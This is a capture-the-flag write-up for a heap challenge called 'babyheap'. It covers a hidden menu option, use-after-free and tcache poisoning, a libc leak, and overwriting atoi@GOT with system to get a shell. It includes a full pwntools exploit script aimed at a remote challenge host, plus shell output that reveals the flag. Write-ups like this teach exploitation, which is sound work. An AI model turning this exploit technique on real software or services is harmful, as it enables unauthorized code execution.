



# babyheap



### Summary

* Classic menu-style heap challenge
* "Limited options" (malloc x2, write x1, free x1, leak x1)
* Hidden function (option `1337`) = malloc+edit
* UAF/tcache poisoning to overwrite arbitrary memory
    * Leak and get an extra edit
    * Overwrite `atoi@GOT` with `system` 

### Walkthrough
We are given an ELF x86-64 `babyheap`.
```
babyheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c8f2569845fd18e770a643884587a01e586b6286, stripped
```
```
$ ./babyheap
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 1
Done!
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 2
Content? hello
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 3
Content: hello

------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 4
Done!
```
We get to use **>only one<** of each option, except for `Create` which we can do twice, provided that we `Delete` in-between. `atoi` is used to handle string to integer conversion for option selection.

**But wait, there is more:**
A hidden option, `Fill` was found through statical analysis, and functions as one combined `Create`+`Edit`. We get 1 of this `Fill`, meaning we get *an extra* malloc + write.
```
$ ./babyheap 
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 1337
Fill hello
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 3
Content: hello
```

Every function in IDA (main is basically just atoi -> switch case with checks):



*The qwords are bss variables used to limit the use of each function* 

### Solution

* Add
* Delete to put in tcache free list
    * chunk -> tail (`0x0`)
* Edit to poison free list
    * chunk -> pointer we want (`0x6020a0`)
* Add
    * pointer we want is next up in free list
* Fill 
    * gives us a pointer to `0x6020a0` and lets us write there

**So what's special about `0x6020a0`?**
* Our "uses" are stored there, so we can zero them and use them once more AND
* at offset `0x28` , in other words `0x6020c8` is our `buf` pointer



This means, using `Fill` we can both zero our "uses", and re-point `buf` to `atoi@GOT` which holds a libc address. Thus, we can:
* Leak a libc address using `Show`
    * Calculate address of `system`
* Overwrite `atoi@GOT` so it points to `system`, using our extra `Edit`.
* Input `/bin/sh` as option, passing it to `atoi@GOT`
    * Effectively calling `system("/bin/sh")`


```python
#!/usr/bin/python2
from pwn import *

def add():
    p.sendlineafter("> ", "1")

def edit(data):
    p.sendlineafter("> ", "2")
    p.sendlineafter("Content? ", data)

def show():
    p.sendlineafter("> ", "3")

def delete():
    p.sendlineafter("> ", "4")

def fill(data):
    p.sendlineafter("> ", "1337")
    p.sendafter("Fill ", data)

got_atoi = 0x0000000000602060
bss = 0x00000006020A0

with context.quiet:
    #p = process("./babyheap", env = {"LD_PRELOAD":"./libc.so.6"})
    p = remote("51.68.189.144", 31005)
    #p = remote("35.243.188.20", 2000)

    p.recvline()

    #UAF to get arbitrary pointer
    add()
    delete()
    edit(p64(bss)) #On the next-next malloc, give me a pointer to bss (0x6020a0)
    add()
    #Now the next malloc will give us the pointer.

    #Malloc 
    #Zero out our "uses" and point "buf" to got_atoi
    fill((chr(0x0)*0x28) + p64(got_atoi))

    #Leak libc address (atoi)
    show()
    p.recvuntil("Content: ")
    libc_atoi= u64(p.recvline().strip().ljust(8, chr(0x0)))
    print "Leaked libc_atoi: %s" % hex(libc_atoi)

    #Calculate system
    offset_to_system = 0xf010
    libc_system = libc_atoi + offset_to_system
    print "Calced libc_system: %s" % hex(libc_system)

    #Win
    edit(p64(libc_system))
    p.sendlineafter("> ", "/bin/sh")
    p.interactive()
```


```
$ ./exploit.py 
Leaked libc_atoi: 0x7fa83e800db0
Calced libc_system: 0x7fa83e80fdc0
$ ls
babyheap
babyheap.sh
flag.txt
$ cat flag.txt
F#{W3lc0m3_t0_h34p_Expl01t4t10n!}
```
